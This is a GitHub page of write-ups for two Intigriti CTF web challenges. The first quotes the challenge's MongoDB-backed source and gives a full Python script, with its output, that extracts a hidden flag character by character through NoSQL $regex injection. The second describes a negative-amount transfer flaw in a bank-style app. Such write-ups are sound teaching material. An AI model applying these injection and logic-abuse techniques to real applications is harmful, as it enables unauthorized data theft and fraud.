 # INTIGRITI WRITEUPS
  

[![Typing SVG](https://readme-typing-svg.herokuapp.com?size=24&duration=4000&color=00FF00&lines=Cybersecurity+Student;CTF+Player+%7C+Crypto+Enthusiast;Pentesting+%26+Exploit+Development)](https://git.io/typing-svg)

---
# Web

## ctfc


### Info

![](screenshots/111.png)


![](screenshots/222.png)

## solution:

After analysing the code source we can know that there is another third challenge and it's not appearing in the dashboard:

```python
def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})

@app.route('/')
@check_login
def dashboard():
	challs = []
	for data in db.challs.find():
		del data['challenge_flag']
		challs.append(data)	
	chall_1 = challs[0]
	chall_2 = challs[1]
	return render_template('t_dashboard.html',username=session['user']['username'],chall_1=chall_1,chall_2=chall_2)
```

also from the route /submit_flag we can see how submiting works and we can see the app using mongoDB:

```python
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	chall_details = db.challs.find_one(
			{
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	)
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"

# wait untill mongodb start then create the challs in db
sleep(10)
createChalls()
```

![](screenshots/333.png)

### NOSqli:
the first thing that comes in my mind after seeing mongoDB is trying noSQLinjection so i tried:

![](screenshots/444.png)

and yeah it worked so we are sure that it's noSQL injection.
so i tried to bruteforce the flag using `$regex` knwowing that the third challenge id is `id:3` and the flag format`INTIGRITI{`:

![](screenshots/555.png)

Now we have to write a script to automate the brute force and here the one i used:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

url = 'https://ctfc.ctf.intigriti.io/submit_flag'
headers = {
    'Host': 'ctfc.ctf.intigriti.io',
    'Cookie': 'session=eyJ1c2VyIjp7Il9pZCI6ImM0NGZkY2UyMDNiYzRiNjNhZjFhODQwMzI1Y2Y5NDA3IiwidXNlcm5hbWUiOiJ0ZWVzdCJ9fQ.ZV9gtA.QuLDFuq4rwWGeAdNfFV424ivlS4',
    'Content-Length': '59',
    'Sec-Ch-Ua': '"Chromium";v="103", ".Not/A)Brand";v="99"',
    'Sec-Ch-Ua-Mobile': '?0',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
    'Sec-Ch-Ua-Platform': '"Linux"',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Origin': 'https://ctfc.ctf.intigriti.io',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Dest': 'empty',
    'Referer': 'https://ctfc.ctf.intigriti.io/',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
}

_id="_id:3"
challenge_flag=""

while True:
    for c in "abcdefghtijklmopqrsuvwyzABCDEFGHIJKLMNOPQRSTUVYWZ0123456789_}":
            payload='{"_id":"%s", "challenge_flag": {"$regex": "^INTIGRITI{%s" }}' % (_id, challenge_flag + c)
            r = requests.post(url,headers=headers,data=payload, verify = False)
            if 'correct flag' in r.text:
                challenge_flag += c
                print("INTIGRITI{"+challenge_flag)
```
and we got it:

```bash
┌──(R4m1㉿R4m1)-[~/Documents/CTF/web-writeup]
└─$ python3 sol.py
INTIGRITI{h
INTIGRITI{h0
INTIGRITI{h0w
INTIGRITI{h0w_
INTIGRITI{h0w_1
INTIGRITI{h0w_1s
INTIGRITI{h0w_1s_
INTIGRITI{h0w_1s_7
INTIGRITI{h0w_1s_7h
INTIGRITI{h0w_1s_7h4
INTIGRITI{h0w_1s_7h4t
INTIGRITI{h0w_1s_7h4t_
INTIGRITI{h0w_1s_7h4t_P
INTIGRITI{h0w_1s_7h4t_PA
INTIGRITI{h0w_1s_7h4t_PAW
INTIGRITI{h0w_1s_7h4t_PAWS
INTIGRITI{h0w_1s_7h4t_PAWSI
INTIGRITI{h0w_1s_7h4t_PAWSIB
INTIGRITI{h0w_1s_7h4t_PAWSIBL
INTIGRITI{h0w_1s_7h4t_PAWSIBLE
INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```

##  Bug Bank 


### Info

![](screenshots/666.png)


![](screenshots/3333.png)

this one i solved it after the ctf ended 
at first i was trying some things related to graphQL and for some reasons i reached nothing:

![](screenshots/4444.png)

until i tried randomly transfering random numbers till i got something (unintended solution but please check intigrity official writeups for the intended one)  :

## solution:
first u need to create two accounts:
![](screenshots/777.png)

![](screenshots/888.png)

then send negative amount from account to another we notice that the server logic try to take the amount from u like:

`ur_bugs = ur_bugs - transfered_bugs
so when transfered_bugs is negative we got
ur_bugs = ur_bugs - (-transfered_bugs)
`

![](screenshots/999.png)

![](screenshots/5555.png)

then we can get the flag easily:
![](screenshots/1111.png)

![](screenshots/2222.png)
